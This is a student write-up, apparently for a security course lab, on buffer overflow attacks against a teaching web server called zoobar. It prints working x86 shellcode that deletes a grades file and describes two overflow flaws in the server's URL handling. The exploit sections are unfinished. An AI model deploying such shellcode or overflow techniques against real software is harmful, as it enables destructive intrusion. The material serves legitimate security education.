 # Lab 1: Buffer overflows exploit writeup

## Shellcode

The goal of our buffer overflows attack is to unlink (or delete if you want) the
file `home/httpd/grades.txt`. If you are unfamiliar with how to write shellcode,
please check [this article](http://www.phrack.com/issues.html?issue=49&id=14#article)
first before you continue reading this writeup. As the shellcode is usually
being injected into victim program as a string, one important part of writing
shellcode is to avoid the zero byte. This can be eliminated by replacing the
intermediate value `0` into other instructions like `xorl %eax, %eax`, e.t.c.

Now suppose we are going to write shellcode to unlink the `grades.txt` file,
there are two ways to achieve this goal. One is to do syscall with `%eax` equals
to `SYS_unlink (0xa)`, another one is to invoke the C library function `unlink`.
Both two need to take a pointer to a null-terminated C string as the target file
to be unlinked. Since calling `unlink` needs to know the address of this
function in advance, and this is not a trivial task when writing the shellcode,
so we will take the first approach, which will only needs to execute `int $0x80`.

Using the approach described in the above article, we can struct our shellcode
below.

```asm
#define STRING	"/home/httpd/grades.txt"
#define STRLEN	22

main:
	jmp	calladdr

popladdr:
	popl	%esi
	xorl	%eax,%eax		/* get a 32-bit zero value */
	movb	%al,(STRLEN)(%esi)	/* null-terminate our string */

	movb	$SYS_unlink,%al         /* syscall arg 1: syscall number */
	movl	%esi,%ebx		/* syscall arg 2: string pathname */
	int	$0x80			/* invoke syscall */

	xorl	%ebx,%ebx		/* syscall arg 2: 0 */
	movl	%ebx,%eax
	inc	%eax			/* syscall arg 1: SYS_exit (1), uses */
					/* mov+inc to avoid null byte */
	int	$0x80			/* invoke syscall */

calladdr:
	call	popladdr
	.ascii	STRING
```

`popladdr` and `calladdr` are used to get the address of STRING dynamically, as
we don't know where our shellcode will be injected to. Then the address of
STRING will be loaded into the register `%esi`. We use two instructions
`xorl %eax,%eax` and `movb %al,(STRLEN)(%esi)` instead of `movb $0,(STRLEN)(%esi)`,
this could avoid the byte zero in the generated shellcode. In case of the
`SYS_unlink` fails, `SYS_exit` is called to terminate the program on failure.

## Vulnerability

By browsering `zoobar`'s web server code, we can find several vulnerabilities to
exploit the buffer overflows. Here we only pick two outstanding examples to show
how to exploit it.

The first vulnerability is located in [http.c:105]. `url_decode` does not check
the buffer size of `reqpath`, when the length of `sp1 (URI)` is larger than the
buffer size of `reqpath`, the return address of `process_client` [zookd.c:70]
will be overwritten.

The second vulnerability is located in [http.c:282]. `strcat` does not check the
buffer size of `pn`. Since `handler` is placed ahead of the buffer `pn`, a
carefully constructed `name (URI)` will overwrite the value of `handler`, then
the later call to `handler` will trap into an arbitary address.

We will see the exploits of these two vulnerabilities differ much after we go
further.

## Exploits

We will use two different exploits to attack these two vulnerabilities, namely
the first one is code injection which requires to put the shellcode on an
executable stack, and the second one is return-to-libc attack which does not
need the strict requirement.

### Exploit 1

TODO

exploit-2a.py
exploit-3.py
exploit-4a.py

### Exploit 2

TODO

exploit-2b.py
exploit-4b.py
